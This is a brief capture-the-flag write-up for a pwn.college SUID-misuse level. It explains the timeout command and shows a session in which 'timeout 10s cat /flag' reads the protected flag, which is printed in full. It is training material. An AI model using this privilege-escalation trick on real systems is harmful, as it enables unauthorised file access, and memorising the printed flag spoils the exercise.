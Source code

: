 `timeout`

`timeout` command in unix-based os allows to execute a command with a specified time limit. It is used to limit the amount of time a command can run and terminates if it exceeds the specified duration.

> [!SYNTAX]
> `timeout [option] DURATION COMMAND`

`timeout` command can be quite handy when dealing with potentially long running or unresponsive processes, helping to prevent them from monopolizing system resources or causing delays.

```bash
hacker@program-misuse-level-28:~$ cd /
hacker@program-misuse-level-28:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-28:/$ cd challenge/
hacker@program-misuse-level-28:/challenge$ ls
babysuid_level28
hacker@program-misuse-level-28:/challenge$ ./babysuid_level28 
Welcome to ./babysuid_level28!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/timeout.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level28) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/timeout!
hacker@program-misuse-level-28:/challenge$ timeout 10s cat /flag
pwn.college{o7PqTOOkX_-iwHCbw-Bb3Z6ijqE.0FM3EDL0AjNzQzW}
hacker@program-misuse-level-28:/challenge$ timeout 0s cat /flag
pwn.college{o7PqTOOkX_-iwHCbw-Bb3Z6ijqE.0FM3EDL0AjNzQzW}
```


